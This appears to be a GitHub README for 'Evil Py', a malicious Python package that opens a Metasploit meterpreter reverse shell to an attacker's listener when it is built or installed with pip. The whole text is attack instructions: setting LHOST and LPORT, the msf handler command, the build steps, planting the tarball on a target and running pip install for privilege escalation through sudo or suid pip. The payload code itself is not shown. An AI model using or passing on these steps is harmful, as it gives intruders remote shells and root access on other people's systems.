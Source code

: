 # Evil Py
This is a python package MSF Payload developed by sn0wfa11.

Python users need to be aware that packages installed via `pip` have the ability to execute python code as part of the install process. This can be leveraged in situations where an attacker is able to execute pip commands remotely or for privilege escalation when a low priv user has sudo rights to `pip` or root's suid bit is set. 

https://github.com/sn0wfa11

## Setup Instructions
- Change the IP and Port in setup.py to your LHOST and LPORT
- Start a Metasploit listener for payload `python/meterpreter/reverse_tcp`
```
msf > handler -p python/meterpreter/reverse_tcp -H <Your LHOST> -P <Your LPORT>
```
- Install the package compile dependencies
```
python -m pip install --user --upgrade setuptools wheel
```
- Build the package 
  - Go to the directory where setup.py is located
  - **Note: This will pop a shell on you build computer! Great way to test the package**
  - This will throw errors, but don't worry about it. *This is intentional as I don't want any of this uploaded to the official Python package deployment system.*
```
python setup.py sdist bdist_wheel
```
- Grab the .tar.gz file out of the /dist folder and place this on your target. 
  - There may be multiple ways to get the package to the target... but that's for you to research. ;)
- Run `pip install evil_py-<version>.tar.gz`
- Works great for PE if you have sudo rights for pip or pip's suid bit is set!
